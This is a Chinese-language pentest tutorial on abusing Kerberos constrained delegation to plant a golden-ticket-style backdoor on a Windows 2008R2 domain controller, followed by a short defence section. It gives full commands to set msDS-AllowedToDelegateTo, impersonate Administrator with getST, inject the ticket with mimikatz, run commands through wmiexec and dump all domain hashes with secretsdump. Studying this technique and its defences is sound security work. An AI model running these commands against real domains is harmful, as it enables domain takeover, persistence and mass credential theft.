 ## 前提环境

复现要求域控 windows 2008R2 及以下版本。2012把权限粒度分小了。

[七友](https://xz.aliyun.com/t/7217)和[n1nty](https://paper.seebug.org/620/)师傅都是在 域控win2008 环境复现的。

[Kerberos Constrained Delegation Overview](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400(v=ws.11))

	In earlier operating systems where the domain administrator configured the service, the service administrator had no useful way to know which front-end services delegated to the resource services they owned. And any front-end service that could delegate to a resource service represented a potential attack point. If a server that hosted a front-end service was compromised, and it was configured to delegate to resource services, the resource services could also be compromised.
	
	In Windows Server 2012 R2 and Windows Server 2012, ability to configure constrained delegation for the service has been transferred from the domain administrator to the service administrator. In this way, the back-end service administrator can allow or deny front-end services.

## 利用约束委派生成黄金票据

适用于通过其他方式登录域控，留后门用，但动静可能比较大。

TGS默认的spn是krbtgt/domain name，我们操作环境是krbtgt/LMRSEC.COM

**krbtgt默认是禁用的而且无法启用，所以我们无法使用界面来添加这个SPN。**

我们可以使用powershell来添加:

	Import-Module ActiveDirectory
	$user = Get-ADUser tony
	Set-ADObject $user -Add @{ "msDS-AllowedToDelegateTo" = @("krbtgt/lmrsec.com") }

![](images/1.jpg)

GUI界面查看一下，成功添加 :

![](images/2.jpg)

powerview 工具检查 (msds-allowedtodelegateto 字段)：

![](images/6.png)

伪造管理员身份：

	getst.exe -dc-ip 10.10.40.50 -spn krbtgt/lmrsec.com -impersonate Administrator lmrsec.com/tony:Passw0rd

	getST.py: Given a password, hash, aesKey or TGT in ccache, this script will request a Service Ticket and save it as ccache. If the account has constrained delegation (with protocol transition) privileges you will be able to use the -impersonate switch to request the ticket on behalf other user.
    Added resource-based constrained delegation support to S4U

参数：
	
	-impersonate：表示伪造用户
	
	-spn：表示我们要委派的服务的spn，这里是TGS
	
	-dc-ip：域控ip

执行之后会在当前目录生成一个缓存文件Administrator.ccache。

linux 使用：```export KRB5CCNAME=Administrator.ccache klist```

或者windows使用mimikatz进行ptc（pass the cache），将缓存注入当前会话中：

	kerberos::ptc Administrator.ccache

查看缓存的票据：

	klist

执行命令的话我们可以用impacket系列或者powershell都可以：

wmiexec 访问域控：

	set KRB5CCNAME=Administrator.ccache
	
	wmiexec.exe -no-pass -k administrator@AD.lmrsec.com -dc-ip 10.10.40.50

导出域控上所有用户以及主机的hash：

	set KRB5CCNAME=Administrator.ccache
	
	secretsdump.exe -no-pass -k AD.lmrsec.com

## 防御约束委派攻击

1.高权限用户没有在特殊要求之下设置为不可委派

![](images/3.png)

开始-》运行-》dsac ->  弹出 Active Directory Administrative Center 

全局搜索-》输入用户名

查看```其它选项```：

![](images/4.png)

2.为了防止凭据被盗微软推出了Protected Users组，适用于Windows Server 2016，Windows Server 2012 R2、 Windows Server 2012

[如何配置受保护的帐户](https://docs.microsoft.com/zh-cn/windows-server/security/windows-authentication/how-to-configure-protected-accounts)

[Protected Users](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts#BKMK_AddtoProtectedUsers)

![](images/5.png)

![](images/7.jpg)

3.提高服务用户密码强度，防止黑客通过Kerberoasting等手段对口令进行暴力破解

## 后记

1.编译impacket：

```pyinstaller --noconsole --onefile impacket-0.9.22\examples\getST.py```

编译不成功：

![](images/8.png)

还以为导包不成功，原来是包和文件夹同名：

![](images/9.png)

```pip install impacket 或 python setup.py install```

![](images/10.png)

也直接下载一个现成的...

https://github.com/ropnop/impacket_static_binaries/releases

一般没在域环境会报这个错：

![](images/11.png)

后来因为我域控用的2012 权限不够：

![](images/12.png)

[TGT/TGS Issue Error Codes](https://system32.eventsentry.com/codes/field/TGT_TGS%20Issue%20Error%20Codes)

KDC_ERR_BADOPTION:

KDC cannot accommodate requested option. Impending expiration of a TGT. The SPN to which the client is attempting to delegate credentials is not in its Allowed-to-delegate-to list.

getst.exe 获取约束委派的cifs服务的权限：

![](images/13.png)

实战都是proxychains4，很少会把exe真的传上去...

2.能想到用这个场景是通过其他方式获取管理员权限，登录域控设置约束委派留后门吧，因为伪造的黄金票不依赖于krbtgt，不会受krbtgt密码更改影响。但是动静比较大，会留日志等。

[利用 Kerberos delegation 打造变种黄金票据](https://paper.seebug.org/620/)

## 参考资料

[Kerberos Protocol Overview](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a)

[这是一篇“不一样”的真实渗透测试案例分析文章----**非常经典**](https://www.secpulse.com/archives/125869.html)